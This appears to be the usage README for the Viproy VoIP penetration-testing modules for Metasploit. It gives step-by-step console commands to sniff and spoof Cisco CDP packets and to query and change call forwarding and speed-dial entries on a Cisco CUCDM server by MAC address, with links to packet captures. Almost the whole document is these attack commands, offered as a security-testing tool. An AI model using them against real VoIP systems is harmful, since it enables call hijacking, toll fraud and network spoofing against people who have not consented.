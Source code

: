 #Usage of Auxilary Viproy Modules

##CDP Tester

set INTERFACE en5<br>
set ACTION Sniffer<br>
run<br>
jobs<br>

use auxiliary/spoof/cisco/viproy_cdp<br>
show options <br>
set INTERFACE en5<br>
set ACTION Spoof <br>
run<br>

http://www.viproy.com/captures/viproy_cdp.pcapng<br>

#Cisco CUCDM Testing Modules Usage

##Call Forwarding

use auxiliary/voip/viproy_cucdm_callforward <br>
set RHOST 192.168.1.151<br>
set RPORT 8080<br>
set ACTION INFO<br>
set MAC 001795A603C2<br>
run<br><br>

set ACTION FORWARD<br>
set FORWARDTO 007<br>
run<br><br>

set ACTION INFO<br>
run<br>

http://www.viproy.com/captures/viproy_cucdm_callforward.pcapng<br>

##Speeddial Manipulation

use auxiliary/voip/viproy_cucdm_speeddials <br>
set RHOST 192.168.1.151<br>
set RPORT 8080<br>
set MAC 001795A603C2<br>
run<br><br>

set ACTION ADD<br>
set NAME Viproy<br>
set TELNO 007<br>
set POSITION 3<br>
run<br><br>

set ACTION INFO<br>
run<br><br>

set ACTION MODIFY<br>
set POSITION 1<br>
set NAME janedoe<br>
set TELNO 007<br>
run<br><br>

set ACTION INFO<br>
run<br>

http://www.viproy.com/captures/viproy_cucdm_speeddial.pcapng<br>